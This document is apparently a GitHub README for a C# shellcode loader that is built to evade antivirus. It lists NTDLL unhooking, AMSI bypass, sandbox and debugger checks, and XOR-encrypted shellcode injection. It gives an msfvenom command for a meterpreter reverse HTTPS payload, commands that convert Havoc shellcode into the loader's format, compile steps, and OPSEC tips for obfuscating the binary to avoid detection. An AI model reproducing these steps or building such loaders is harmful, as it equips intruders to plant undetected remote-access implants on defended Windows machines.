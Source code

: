 ### C# ShellCode Loader 1
--------------------------------------
A quick and dirty C# shellcode loader that implements several antivirus bypass and defense evasion techniques. <br> 

<i/>Note: I simply reused and modified codes from various Github projects.</i>

#### FEATURES
  - Classic shellcode injection technique using the function 'NtCreateThreadEx'
  - Shellcode encryption (XOR)
  - NTDLL unhooking (it loads a fresh new copy of ntdll.dll via file mapping and imports functions from this ntdll.dll)
  - AMSI bypass
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc
    
#### TESTS
- Succesfully tested on a Windows 10 x64 laptop (target) with Windows Defender enabled (without 'Automatic sample submission') and shellcodes of multiple C2 frameworks (in C# format & encrypted with XOR cipher algorithm)

#### INPUT (Shellcode formats)
Your shellcode must be in C# format (see examples below) and then encrypted using XOR cipher algorithm.
Obviously, both the encrypted shellcode and your XOR key must be added in the file 'CsharpShellCodeLoader.cs' before you compile it.

- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o  shellcode```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### COMPILATION 
- I used "Developer PowerShell for VS 2022":
  - Microsoft (R) Visual C# Compiler version 4.5.0-6.23123.11
  - Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs

#### OPSEC Advices
- The file 'CsharpShellCodeLoader.cs' is not obfuscated. Class/function/variable names should be changed and all comments must be deleted or modified before compiling this file.
- Once compiled, if you want to compress and obfuscate the shellcodeloader executable you can use packers like "ConfuserEx" (but it is not necessary in order to bypass most AV solutions).
  
